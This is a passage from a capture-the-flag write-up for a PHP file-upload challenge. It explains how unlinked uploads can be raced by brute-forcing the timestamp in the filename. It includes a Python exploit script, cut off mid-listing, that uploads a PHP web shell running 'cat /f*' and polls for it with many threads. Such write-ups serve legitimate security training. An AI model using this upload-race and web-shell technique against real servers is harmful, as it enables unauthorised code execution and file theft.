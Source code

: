 In the code, we can see that we can upload any kind of file regarding the written filters because they were pointless (no prevention after the checks). Still, the notable thing is that anything we upload is going to be deleted at the end through `unlink()`, moreover, if we upload a file with `< 10MB` size it will be moved from PHP's uploads tmp folder to accessible `/var/www/html/tmp` folder then will be removed at the end.

For the upload filename, we can't specify anything existent to overwrite or cause deletion like the index.html or anything, we can't also do path traversal because the basename and the ext were only taken from the filename

```php
	$uploadpath = "tmp/";
    $ext = pathinfo($_FILES["files"]["name"], PATHINFO_EXTENSION);
    $filename = basename($_FILES["files"]["name"], "." . $ext);
    $timestamp = time();
    $new_name = $filename . '_' . $timestamp . '.' . $ext;
    $upload_dir = $uploadpath . $new_name;
```

Clearly, we can't do anything but a race condition, the only issue is the `$timestamp` that we can't exactly predict but can be brute-forced.

We need to upload a PHP file that will read the `/flag.txt` (which we know about its location from the Dockerfile) and simultaneously try to access that file.

I created the following script which will do all the work

```python
#!/usr/bin/python3
import requests
import threading
import datetime
import os
import re


# url = f"http://127.0.0.1/"
url = "https://da93b7e95bdffb4bb4d946e2.deadsec.quest/"
max_threads = 50  # Set the maximum number of threads

def access_payload(timestamp):
    file_name = f"shell_{int(timestamp)}.php"
    response = requests.get(url + "tmp/" + file_name)
    res = response.text
    if "The requested URL was not found on this server" in res:
        return False
    flag = re.findall(r"DEAD{.*}", res)
    if flag:
        print(flag[0])
        print("Killing Task...")
        os.kill(os.getpid(), 9)
        return flag

    return flag


def upload_payload():
    file_content = """
    <?php
    system("cat /f*");
    ?>
    """
    files = {"files": ("shell.php", file_content, "application/octet-stream")}
    response = requests.post(url + "upload.php", files=files)
    return response


```